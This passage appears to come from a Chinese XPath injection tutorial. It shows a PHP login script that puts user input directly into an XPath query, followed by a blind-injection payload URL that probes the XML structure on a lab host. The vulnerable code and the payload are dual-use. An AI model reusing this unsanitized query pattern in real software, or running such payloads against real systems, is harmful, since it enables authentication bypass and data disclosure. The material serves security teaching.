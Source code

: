 ~~~php
# index.php:
<?php
$xml = simplexml_load_file('blog.xml');
$name = $_GET['name'];
$pwd = md5($_GET['pwd']);
$query = "/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']";
echo $query;
$result = $xml->xpath($query);
if($result) {
    echo '<h2>Welcome</h2>';
    foreach ($result as $key => $value) {
        echo '<br />ID:'.$value->id;
        echo '<br />Username:'.$value->username;
    }
}
~~~

![img](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/xpath%E6%B3%A8%E5%85%A5/media/image-20211013182254273.png)

> 无回显猜解xml文档结构信息，猜解根元素个数:http://10.37.129.3:8305/xpath1/index.php?name=x' or count(/*)=1 or '1'='1&pwd=x   //x' or count(/*)=1 or '1'='1&pwd=x

![img](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/xpath%E6%B3%A8%E5%85%A5/media/image-20211015230952037.png)
